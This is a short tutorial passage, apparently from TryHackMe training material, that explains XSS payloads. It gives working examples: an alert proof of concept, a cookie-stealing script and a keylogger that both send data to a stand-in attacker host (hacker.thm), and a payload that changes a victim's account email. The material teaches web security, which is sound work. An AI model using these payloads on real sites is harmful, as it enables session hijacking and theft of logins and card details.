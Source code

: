 **What is a XSS payload?**

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

Here are some examples of XSS intentions.

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

`<script>alert('XSS');</script>`

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.thm');</script>`

Now that the email address for the account has changed, the attacker may perform a reset password attack.

**Note**: This room is very useful https://tryhackme.com/room/xss